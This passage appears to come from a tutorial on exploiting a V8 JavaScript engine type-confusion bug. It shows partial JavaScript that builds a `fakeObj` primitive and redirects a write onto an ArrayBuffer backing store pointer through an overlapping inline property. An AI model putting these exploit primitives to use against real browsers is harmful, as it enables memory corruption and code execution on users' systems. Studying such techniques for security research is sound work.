 <p align="center"><a href="/images/MemExample3.png"><img src="/images/MemExample3.png"></a></p>

To make our `fakeObj` function more flexible, we will modify it to accept an object of our choice. We'll also pass in a `newValue` parameter that specifies the data we want to write. We'll then set that `newValue` parameter for the `x` property within the `vuln` function instead of having our hardcoded address of `0x41414141n`.

```js
function fakeObj(obj, newValue) {
    eval(`
    function vuln(obj) {
      obj.inline;
      this.Object.create(obj);
      let orig = obj.p${p1}.x;
      obj.p${p1}.x = $(newValue);
      return orig;
    }
  `);

    let pValues = [];
    pValues[p1] = {x: 13.37};
    pValues[p2] = {y: obj};
	...
```

We will also modify the object within `p1` to have two in-line properties, since we know that the second in-line property overlaps the backing store pointer. Additionally, we need to modify the `vuln` function to access the second inline property so we can write to the backing store pointer. 

```js
BigInt.prototype.toNumber = function toNumber() {
    uint64View[0] = this;
    return floatView[0];
};

function fakeObj(obj, newValue) {
    eval(`
    function vuln(obj) {
      obj.inline;
      this.Object.create(obj);
      // Write to Backing Store Pointer via Property x2
      let orig = obj.p${p1}.x2;
      obj.p${p1}.x2 = ${newValue};
      return orig;
    }
  `);

    let pValues = [];
    // x2 Property Overlaps Backing Store Pointer for Array Buffer
    let o = {x1: 13.37, x2: 13.38};
```